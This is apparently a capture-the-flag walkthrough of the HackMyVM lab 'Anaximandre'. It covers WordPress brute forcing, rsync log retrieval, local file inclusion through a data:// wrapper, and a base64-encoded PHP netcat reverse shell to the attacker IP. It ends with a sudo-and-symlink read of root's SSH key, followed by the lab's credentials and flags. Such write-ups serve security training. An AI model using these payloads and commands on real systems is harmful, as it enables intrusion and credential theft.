Introduction
Anaximandre is a Linux-based target on HackMyVM that involves a multi-step exploitation process. The journey begins with network discovery, moves through a WordPress CMS vulnerability (weak credentials), leverages a local file inclusion (LFI) vulnerability in a web application, pivots through exposed backup files, and finally escalates privileges via a misconfigured sudo rule and rsync.
- Difficulty: Medium
- Platform: HackMyVM
- Target IP:
192.168.56.146 - Attacker IP:
192.168.56.1
Network Scanning & Enumeration
Initial Discovery
We start by identifying the target on the local network using an nmap ping sweep.
nmap -sn 192.168.56.1/24
Port Scanning
We perform a detailed scan using rustscan to quickly identify open ports, followed by nmap for service detection.
rustscan --ulimit 5000 -a 192.168.56.146 -- -sS -sC -A -T4 -open -oN nmap.txt -oX nmap.xml
Results:

- 22/tcp (SSH): OpenSSH 8.4p1 Debian
- 80/tcp (HTTP): Apache httpd 2.4.54 (Debian)
- 873/tcp (rsync): Protocol version 31
Web Enumeration
Analyzing the Web Server
Navigating to http://192.168.56.146 shows a WordPress site titled “Mindblown: a blog about philosophy.”

Checking the page source reveals the WordPress version is 6.1.1.

Host File Configuration
The source code references the domain anaximandre.hmv. We add this to our /etc/hosts file for easier access.
192.168.56.146 anaximandre.hmv
Directory Fuzzing
Using dirsearch, we discover standard WordPress directories and files, including wp-login.php and xmlrpc.php.

Result:

WordPress User Enumeration
We use wpscan to enumerate users.
wpscan --url http://anaximandre.hmv/ -e u

Gaining Initial Access (Foothold)
Brute Force Attack
We attempt a password attack against the xmlrpc.php endpoint using the rockyou.txt wordlist.
wpscan --url http://anaximandre.hmv/ -U admin,webmaster -P /usr/share/wordlists/rockyou.txt --password-attack xmlrpc

- Username:
webmaster - Password:
mickey
WordPress Admin Access
We log in to the WordPress dashboard at http://anaximandre.hmv/wp-login.php.

Once inside, we check the comments section and find a pending comment containing a sensitive note:

On carefully inspecting the dashboard I noticed a key that was recently commented:

"CONFIDENTIAL NOT TO BE PUBLISHED note to self: Yn89m1RFBJ"This string Yn89m1RFBJ appears to be a decryption key.
Leveraging Rsync & Decrypting Logs
Rsync Enumeration
Port 873 (rsync) is open. We enumerate the available shares.
rsync rsync://192.168.56.146
Downloading Files
We download the contents of the share to our local machine.

Downloading the shares to out local machine:
rsync "rsync://192.168.56.146/share_rsync/*.cpt" .
Decrypting the Logs
Using the key found earlier (Yn89m1RFBJ), we decrypt the files using ccrypt.
ccrypt -d access.log.cpt
# Enter decryption key: Yn89m1RFBJ
# (Repeat for other .cpt files)
Decrypting the log files:

We've successfully decrypted the log files.
Exploiting the Web Application
Analyzing Logs for Vulnerabilities
Reading the decrypted error.log reveals a vulnerable web application:

- Path:
/var/www/i3geo/pacotes/qrcode/qr_img.php - Referer header: lovegeografia.anaximandre.hmv
Adding the referer header found into the /etc/hosts:

Navigating to the page; lovegeografia.anaximandre.hmv:

On visiting the page I found just another page with a different layout.
Viewing the access log we can see the LFI in action:
http://lovegeografia.anaximandre.hmv/exemplos/codemirror.php?&pagina=../../../../etc/passwd
Result:

The highlighted entry in the access log shows the LFI in action, allowing us to read the contents of /etc/passwd.
Going back to the webpage, we can see that we can read the contents of /etc/passwd.

From the screenshot, we can see the contents of /etc/passwd. Which also validates there exists a user, 'chaz' in the system.
Also on view the auth logs we see that it supports our finding that indeed the user chaz does exist

Result:

Additionally, we observe successful login attempts by the root user via SSH, indicating a potential security breach.
Log Poisoning & RCE
We use the LFI to poison the Apache access logs with a PHP reverse shell.
- We craft a PHP payload:
<?php system('nc -e /bin/bash 192.168.56.1 1234'); ?> - We base64 encode it
- We inject it into the URL via the User-Agent header (or directly via the LFI if wrappers are enabled)

The crafted URL uses the data:// wrapper (or similar technique) to execute the payload directly:
http://lovegeografia.anaximandre.hmv/exemplos/codemirror.php?&pagina=data://text/plain;base64,PD9waHAgc3lzdGVtKCduYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC41Ni4xIDEyMzQnKTsgPz4=
Catching the Shell
We set up a netcat listener and trigger the URL.
penelope -i 192.168.56.1 -p 1234
The shell is captured on visiting the URL with the PHP payload.
Lateral Movement (User Pivoting)
Discovering Credentials
Inside the shell as www-data, we look for configuration files. We check /etc/rsyncd.auth (or similar) and find credentials:

- User:
chaz - Password:
alanamorrenchazado
Switching User
We use these credentials to switch to the user chaz.
su chaz
# Password: alanamorrenchazado
Privilege Escalation
Sudo Enumeration
We check sudo permissions for chaz.
sudo -l
This allows chaz to read any file in their home directory as root.
Exploiting Sudo to Read SSH Keys
We suspect the root user's SSH private key is accessible if we can link to it. We create a symbolic link in our home directory pointing to root's SSH key:
ln -s /root/.ssh/id_rsa .
We use the allowed cat command to read the key:
sudo cat /home/chaz/id_rsa

Root Access
We save the key locally, set correct permissions, and SSH into the machine as root.
chmod 600 id_rsa
ssh -i id_rsa root@192.168.56.146
Authenticating as the root user via SSH:

Flags
We capture the final flags:
cat /home/chaz/user.txt
# d151c8ace0dbdd0ef23a3e3200f696f1
cat /root/root.txt
# a3cbb8984cf5f19086595c6a2f569786
We've successfully captured both the user and root flags.
Rooted. 🏁